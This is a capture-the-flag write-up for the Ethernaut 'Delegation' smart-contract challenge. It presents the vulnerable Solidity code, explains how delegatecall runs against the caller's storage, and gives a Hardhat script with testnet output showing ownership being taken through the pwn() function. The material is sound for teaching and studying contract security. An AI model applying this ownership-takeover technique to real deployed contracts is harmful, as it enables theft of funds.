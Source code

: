 ```yaml
---
title: Ethernaut Delegation
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Delegation challenge writeup
---
```


## Delegation

### Challenge

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
* Fallback methods
* Method ids


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

### Background

The low level instruction `delegatecall` will execute the code in some other contract under the context of the current contract. This means the the code being called is executed but with the storage, `msg.value`, `msg.sender` etc of the caller contract. This can be used to implement libraries and and proxy contracts used for upgradeability.

### Attack

The attack is simple, we can call the `Delegation` contract address using the ABI of the `Delegate` contract. Is this case, the `fallback` function of the `Delegation` contract will be called and delegate the execution to the `Delegate` contract. Then we simply need to call the `pwn` function which will update the first slot in the caller function to the `msg.sender`, which in this case is the attacker.

* Get instance of `Delegate` contract ABI with `Delegation` contract address
* Call `pwn` function

#### token-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    delegationAddress = "0x65fE1306C4fFF667D9f0A75dc4226289Ec1e62e3";
    contract = await ethers.getContractAt("Delegate", delegationAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())

    // call delegate contract function
    tx = await contract.connect(account).pwn()
    receipt = await tx.wait()

    console.log("Contract Owner  : " + await contract.owner())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/delegation-solve.js --network rinkeby
Level address   : 0x65fE1306C4fFF667D9f0A75dc4226289Ec1e62e3
Contract Owner  : 0x9451961b7Aea1Df57bc20CC68D72f662241b5493
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.

